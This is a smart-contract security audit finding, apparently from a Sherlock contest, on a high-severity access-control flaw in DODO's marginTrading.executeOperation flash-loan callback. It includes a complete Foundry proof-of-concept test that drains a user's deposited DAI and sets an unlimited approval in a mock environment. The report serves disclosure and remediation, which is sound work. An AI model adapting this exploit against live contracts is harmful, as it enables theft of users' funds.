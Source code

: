 smiling_heretic

high

# Anyone can trigger `marginTrading.executeOperation` and steal all the funds from this contract

## Summary

`marginTrading.executeOperation` can be triggered by anyone because of insufficient access control. An arbitrary external call in this function allows the attacker to send all the funds from the contract to himself.


## Vulnerability Detail

The function `executeOperation` in `marginTrading` contract is meant to be called by `lendingPool` as the flash loan callback. The intention here that it can be called only if `marginTrading` contract itself initiates the flash loan. It's protected by the modifier `onlyLendingPool` to achieve these ends.

However, anyone can trigger this function by calling `lendingPool.flashLoan` and specifying the `receiver` argument as the `marginTrading` contract.

Moreover, the attacker can pass arbitrary `params` to `executeOperation` and these `params` are passed in turn to `_opentrade` internal function. In `_opentrade`, there's  `_swapAddress.call(_swapParams);` where `_swapAddress` and `_swapParams` are controlled by the attacker by specifying `params`.

This way, the attacker can perform any call with `msg.sender == marginTrading`. For example, he can send funds from this contract (or even funds only approved for this contract) to himself (by calling `token.transferFrom`).

## Impact

Anyone can steal all funds from `marginTrading`. Even tokens just approved for this contract can be stolen.

## Proof of Concept
First, let's establish that AAVE lending pools call `executeOperation` on `receiver` passed as an argument, not necessarily on `msg.sender`.

Here's a quote from the [docs](https://docs.aave.com/developers/guides/flash-loans):

> After some sanity checks, the Pool transfers the requested amounts of the reserves to your contract, then calls executeOperation() on receiver contract .

We can also check the code of AAVE [V1](https://github.com/aave/aave-protocol/blob/4b4545fb583fd4f400507b10f3c3114f45b8a037/contracts/lendingpool/LendingPool.sol#LL881C74-L881C74), [V2](https://github.com/aave/protocol-v2/blob/ce53c4a8c8620125063168620eba0a8a92854eb8/contracts/protocol/lendingpool/LendingPool.sol#L510), and [V3](https://github.com/aave/aave-v3-core/blob/29ff9b9f89af7cd8255231bc5faf26c3ce0fb7ce/contracts/protocol/libraries/logic/FlashLoanLogic.sol#L102)

Now that we have this established, let's replace [this line](https://github.com/sherlock-audit/2023-05-dodo/blob/930565dd875dac24609441423c7c76c2ae4719a8/dodo-margin-trading-contracts/contracts/mock/MockLendingPoolV2.sol#L129) in `mock/MockLendingPoolV2.sol` in `flashLoan` function by `IFlashLoanReceiver(receiverAddress).executeOperation(
            assets,
            amounts,
            _premiums,
            msg.sender,
            params
        );` to mimic the on-chain behavior of AAVE more accurately.

Add this test file `dodo-margin-trading-contracts/test/marginTrading/Exploit.t.sol`:

```solidity
pragma solidity 0.8.15;

import "../Context.t.sol";

contract Exploit is Context {
    function setUp() public {
        contextBasicV2();
        approveAllTokenV2();
    }

    function testExploit() public {
        address attacker = address(6666);

        faucet(address(dai), user1, 100 ether);
        faucetWeth(address(lendingPoolV2), 10000 ether);
        uint256 depositAmt = 100 ether;

        vm.startPrank(user1);
        // An honest, unsuspecting user creates a margin trading contract by calling factory
        address _marginTrading = createMarginTradingContract();
        // He deposits 100 DAI to this contract
        marginTradingFactory.depositMarginTradingERC20(
            _marginTrading,
            address(dai),
            depositAmt,
            false,
            1
        );

        vm.stopPrank();

        console2.log("before attack");
        console2.log(dai.balanceOf(address(_marginTrading)));
        console2.log(dai.balanceOf(attacker));
        console2.log(dai.allowance(address(_marginTrading), attacker));

        assertEq(dai.balanceOf(address(_marginTrading)), 100 ether);
        assertEq(dai.balanceOf(attacker), 0);
        assertEq(dai.allowance(address(_marginTrading), attacker), 0);

        vm.startPrank(attacker);
        // attacker prepares swap params for executeOperation to transfer all DAI to himself
        bytes memory swapParams = abi.encodeWithSignature(
            "transfer(address,uint256)",
            attacker,
            depositAmt
        );
        bytes memory executeParams;
        {
            address[] memory _withdrawAssets = new address[](1);
            uint256[] memory _withdrawAmounts = new uint256[](1);
            uint256[] memory _rateMode = new uint256[](1);
            address[] memory _debtTokens = new address[](1);
            address[] memory _tradeAssets = new address[](0);

            // attacker prepares swap params for executeOperation to get infinite approval for DAI
            address[] memory _swapApproveToken = new address[](1);
            _swapApproveToken[0] = address(dai);

            executeParams = encodeExecuteParams(
                1,
                // we use the swapAddress.call(_swapParams) to call dai.transfer(attacker, depositAmt)
                address(dai),
                // our infinite approvals will be for the attacker
                attacker,
                _swapApproveToken,
                swapParams,
                _tradeAssets,
                _withdrawAssets,
                _withdrawAmounts,
                _rateMode,
                _debtTokens
            );
        }
        // we tell lending pool to call executeOperation on the marginTrading contract after the flash loan
        address receiver = _marginTrading;

        // remaining arguments don't really matter, we care here only about triggering executeOperation callback
        address[] memory _assets = new address[](1);
        _assets[0] = address(weth);
        uint256[] memory _amounts = new uint256[](1);
        _amounts[0] = 0;
        uint256[] memory _modes = new uint256[](1);
        _modes[0] = 1;

        lendingPoolV2.flashLoan(
            receiver,
            _assets,
            _amounts,
            _modes,
            attacker,
            executeParams,
            uint16(0)
        );

        vm.stopPrank();

        console2.log();
        console2.log("after attack");
        console2.log(dai.balanceOf(address(_marginTrading)));
        console2.log(dai.balanceOf(attacker));
        console2.log(dai.allowance(address(_marginTrading), attacker));

        assertEq(dai.balanceOf(address(_marginTrading)), 0);
        assertEq(dai.balanceOf(attacker), 100 ether);
        assertEq(
            dai.allowance(address(_marginTrading), attacker),
            type(uint256).max
        );
    }
}
```

Run `forge test -vvv --match-path test/marginTrading/Exploit.t.sol`.


## Code Snippet

https://github.com/sherlock-audit/2023-05-dodo/blob/930565dd875dac24609441423c7c76c2ae4719a8/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L127

https://github.com/sherlock-audit/2023-05-dodo/blob/930565dd875dac24609441423c7c76c2ae4719a8/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L270

https://github.com/sherlock-audit/2023-05-dodo/blob/930565dd875dac24609441423c7c76c2ae4719a8/dodo-margin-trading-contracts/contracts/marginTrading/MarginTrading.sol#L267

## Tool used
Foundry, Manual Review

## Recommendation

Add a check the ensures that the `initiator` of the flash loan is indeed the `marginTrading` contract.
